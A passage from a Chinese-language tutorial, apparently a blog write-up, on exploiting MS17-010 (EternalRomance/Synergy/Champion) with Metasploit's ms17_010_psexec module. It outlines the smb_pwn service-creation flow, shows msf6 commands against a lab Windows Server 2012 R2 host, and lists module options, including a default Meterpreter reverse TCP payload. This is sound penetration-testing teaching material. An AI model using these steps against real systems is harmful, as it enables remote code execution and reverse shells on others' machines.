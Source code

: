 [![](assets/1701606737-8ad9456eccb294d872eef1625546b69d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233943-b520d550-7cba-1.png)

通过以上分析可知，调用 smb\_pwn 函数后的利用过程为：构造服务程序命令、创建服务、启动服务、删除服务、SMB读取服务程序执行结果、SMB删除服务启动后的bat批处理文件。

## exploit ms17\_010\_psexec

exploit/windows/smb/ms17\_010\_psexec 模块，执行 payload 上线进行漏洞攻击

> EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

攻击：Automatic/PowerShell/Native upload/MOF upload

支持：<= Windows Server 2012、32/64位系统

### 攻击测试

环境：Windows Server 2012 R2、192.168.1.9

使用模块

```plain
msf6 > use exploit/windows/smb/ms17_010_psexec
```

查看模块默认配置

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```

*   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   SERVICE\_NAME，服务名-默认随机8位字母字符串
*   SERVICE\_DISPLAY\_NAME，服务展示名-默认随机16位字母字符串
*   SERVICE\_DESCRIPTION，服务描述-默认为空
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   SMBSHARE，目标共享-默认为 `ADMIN$`
*   Payload，反连信息-默认为 `windows/meterpreter/reverse_tcp`、`IP:4444`
*   Target，攻击目标的额外配置-默认 Automatic
